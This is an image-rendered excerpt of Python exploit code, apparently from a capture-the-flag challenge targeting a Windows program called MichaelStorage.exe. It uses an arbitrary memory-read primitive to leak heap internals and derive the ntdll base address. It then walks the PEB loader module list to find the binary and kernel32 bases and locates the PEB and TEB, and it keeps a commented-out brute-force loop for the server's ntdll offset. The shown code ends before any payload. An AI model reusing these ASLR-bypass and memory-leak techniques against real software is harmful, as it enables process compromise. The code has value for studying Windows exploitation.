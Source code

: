 ```python
    # 2. Now leak _HEAP_LFH_CONTEXT->AffinityModArray which is within ntdll
    ntdll_ptr = (seg_list & 0xFFFFFFFFFFFFF000) + 0x370
    ntdll_leak = read_absolute(p, ntdll_ptr)
    print(f"[+] Ntdll leak at {hex(ntdll_ptr)}: {hex(ntdll_leak)}")
    local_offset = 0x1207f9  #0x7fff784107f9 -> 0x7fff782f0000
    ntdll_base = ntdll_leak - local_offset

print(f"[+] Found ntdll base: {hex(ntdll_base)}")

# Bruteforce server ntdll offsets to try and figure out the base (only 8 bits)
# Didn't initially realise my ntdll was the same, so did this...
'''
if is_server:
    # TO REDO THE BRUTEFORCE, MOVE THIS LOOP TO BEFORE PROCESS CREATION
    for serv_leak_guess in range(0x8, 0xab):
        server_ntdll_leak = 0x7ffd7cab0780 # Re-leak if server restarted
        offset_guess = serv_leak_guess << 16 | 0x780
        ntdll_base = server_ntdll_leak - offset_guess
        print(f"[*] Ntdll base guess ({hex(offset_guess)}): {hex(ntdll_base)}")
        try:
            base_value = read_absolute(p, ntdll_base)
            if base_value & 0x5a4d != 0x5a4d: # MZ
                p.close()
                continue
        except:
            continue
'''

# Leak ntdll!PebLdr->InMemoryOrderModuleList
# https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb_ldr_data
bin_base = 0
if is_server and not recalc_server_leaks:
    bin_base = 0x7ff662c80000
else:
    pebldr_offset = 0
    pebldr_offset = 0x16b4c0
    pebldr = ntdll_base + pebldr_offset
    mod_list_ptr = pebldr + 0x20
    mod_list = read_absolute(p, mod_list_ptr)
    print(f"[+] ntdll!PebLdr->InMemoryOrderModuleList at {hex(mod_list_ptr)}: {hex(mod_list)}")

    # Leak the binary base address
    bin_base_ptr = mod_list + 0x20
    bin_base = read_absolute(p, bin_base_ptr)
print(f"[+] MichaelStorage.exe mapped at: {hex(bin_base)}")

# Leak kernel32
kerenl32_base = 0
if is_server and not recalc_server_leaks:
    kernel32_base = 0x7ffd7c680000
else:
    read_file_offset = 0x3000
    read_file_ptr = bin_base + read_file_offset
    read_file = read_absolute(p, read_file_ptr)
    print(f"[+] kernel32!ReadFile at {hex(read_file_ptr)}: {hex(read_file)}")
    kernel32_base = read_file - 0x24ee0
print(f"[+] Found kernel32 base: {hex(kernel32_base)}")

# Get the stack pointer
peb = read_absolute(p, ntdll_base + 0x16b448)-0x80
print(f"[+] Found peb: {hex(peb)}")
teb = peb + 0x1000
print(f"[+] Found teb: {hex(teb)}")
```